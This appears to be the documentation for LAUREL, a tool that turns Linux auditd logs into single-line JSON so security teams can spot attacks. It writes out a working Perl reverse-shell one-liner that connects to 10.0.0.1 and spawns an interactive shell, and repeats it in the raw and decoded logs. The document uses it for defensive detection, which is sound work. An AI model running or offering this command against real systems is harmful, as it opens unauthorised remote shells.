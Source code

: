 # Practical _auditd(8)_ problems

When configured with the right ruleset, logs written by the Linux audit daemon contain most of the information that a competent SOC team needs for host-based security monitoring.

Unfortunately, some design choices for the log format make accessing this information harder than necessary.

Running a simple Perl [reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) one-liner
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
produces the following output in the audit log:
```
type=SYSCALL msg=audit(1626611363.720:348501): arch=c000003e syscall=59 success=yes exit=0 a0=55c094deb5c0 a1=55c094dea770 a2=55c094dbf1b0 a3=fffffffffffff286 items=3 ppid=722076 pid=724395 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts3 ses=3 comm="perl" exe="/usr/bin/perl" subj==unconfined key=(null)ARCH=x86_64 SYSCALL=execve AUID="user" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E285354444F55542C223E265322293B6F70656E285354444552522C223E265322293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): cwd="/root"
type=PATH msg=audit(1626611363.720:348501): item=0 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=1 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=2 name="/lib64/ld-linux-x86-64.so.2" inode=404797 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PROCTITLE msg=audit(1626611363.720:348501): proctitle=7065726C002D650075736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F6174
```

A cursory look at the audita log does not tell us what is going on, except that a Perl interpreter has been started. We would like to do better.

There are several issues with processing this log file format within a SIEM context:

- Different aspects of the same audit event are spread across multiple lines and have to be joined together.
- Strings that contain characters with special meaning for the audit log format (spaces, quotes, etc.) are encoded as hexadecimal strings without quotes and require decoding before they can be processed or displayed to the analyst.
- For numeric values, there is no clear distinction whether they should be interpreted as decimal, octal, or hexadecimal values. (This does not matter for this example.)
- Long command lines are even spread across multiple EXECVE event lines. (This does not matter for this example.)
- If the _auditd(8)_ user-space daemon adds information such as user   or group names (`format=ENRICHED`), this extra information is appended after a `\x1d` "group separator" character which may or may  not be displayed correctly.

This is the same log entry, processed by _LAUREL_ into a single log line:
``` json
{"ID":"1626611363.720:348501","SYSCALL":{"arch":"0xc000003e","syscall":59,"success":"yes","exit":0,"a0":"0x55c094deb5c0","a1":"0x55c094dea770","a2":"0x55c094dbf1b0","a3":"0xfffffffffffff286","items":3,"ppid":722076,"pid":724395,"auid":1000,"uid":0,"gid":0,"euid":0,"suid":0,"fsuid":0,"egid":0,"sgid":0,"fsgid":0,"tty":"pts3","ses":3,"comm":"perl","exe":"/usr/bin/perl","subj":"=unconfined","key":null,"ARCH":"x86_64","SYSCALL":"execve","AUID":"user","UID":"root","GID":"root","EUID":"root","SUID":"root","FSUID":"root","EGID":"root","SGID":"root","FSGID":"root"},"EXECVE":{"argc":3,"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]},"CWD":{"cwd":"/root"},"PATH":[{"item":0,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":1,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":2,"name":"/lib64/ld-linux-x86-64.so.2","inode":404797,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"}],"PROCTITLE":{"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_at"]}}
```

We can see that our main problems that would have prevented us from identifying the reverse shell have been resolved:
``` json
"EXECVE":{"argc":3,"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}
```

Every line is a proper JSON document that can be reformatted with _jq_:
``` json
{
  "ID": "1626611363.720:348501",
  "SYSCALL": {
    "arch": "0xc000003e",
    "syscall": 59,
    "success": "yes",
    "exit": 0,
    "a0": "0x55c094deb5c0",
    "a1": "0x55c094dea770",
    "a2": "0x55c094dbf1b0",
    "a3": "0xfffffffffffff286",
    "items": 3,
    "ppid": 722076,
    "pid": 724395,
    "auid": 1000,
    "uid": 0,
    "gid": 0,
    "euid": 0,
    "suid": 0,
    "fsuid": 0,
    "egid": 0,
    "sgid": 0,
    "fsgid": 0,
    "tty": "pts3",
    "ses": 3,
    "comm": "perl",
    "exe": "/usr/bin/perl",
    "subj": "=unconfined",
    "key": null,
    "ARCH": "x86_64",
    "SYSCALL": "execve",
    "AUID": "user",
    "UID": "root",
    "GID": "root",
    "EUID": "root",
    "SUID": "root",
    "FSUID": "root",
    "EGID": "root",
    "SGID": "root",
    "FSGID": "root"
  },
  "EXECVE": {
    "argc": 3,
    "ARGV": [
      "perl",
      "-e",
      "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"
    ]
  },
  "CWD": {
    "cwd": "/root"
  },
  "PATH": [
    {
      "item": 0,
      "name": "/usr/bin/perl",
      "inode": 401923,
      "dev": "fd:01",
      "mode": "0o100755",
      "ouid": 0,
      "ogid": 0,
      "rdev": "00:00",
      "nametype": "NORMAL",
      "cap_fp": "0x0",
      "cap_fi": "0x0",
      "cap_fe": 0,
      "cap_fver": "0x0",
      "cap_frootid": "0",
      "OUID": "root",
      "OGID": "root"
    },
    {
      "item": 1,
      "name": "/usr/bin/perl",
      "inode": 401923,
      "dev": "fd:01",
      "mode": "0o100755",
      "ouid": 0,
      "ogid": 0,
      "rdev": "00:00",
      "nametype": "NORMAL",
      "cap_fp": "0x0",
      "cap_fi": "0x0",
      "cap_fe": 0,
      "cap_fver": "0x0",
      "cap_frootid": "0",
      "OUID": "root",
      "OGID": "root"
    },
    {
      "item": 2,
      "name": "/lib64/ld-linux-x86-64.so.2",
      "inode": 404797,
      "dev": "fd:01",
      "mode": "0o100755",
      "ouid": 0,
      "ogid": 0,
      "rdev": "00:00",
      "nametype": "NORMAL",
      "cap_fp": "0x0",
      "cap_fi": "0x0",
      "cap_fe": 0,
      "cap_fver": "0x0",
      "cap_frootid": "0",
      "OUID": "root",
      "OGID": "root"
    }
  ],
  "PROCTITLE": {
    "ARGV": [
      "perl",
      "-e",
      "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_at"
    ]
  }
}
```
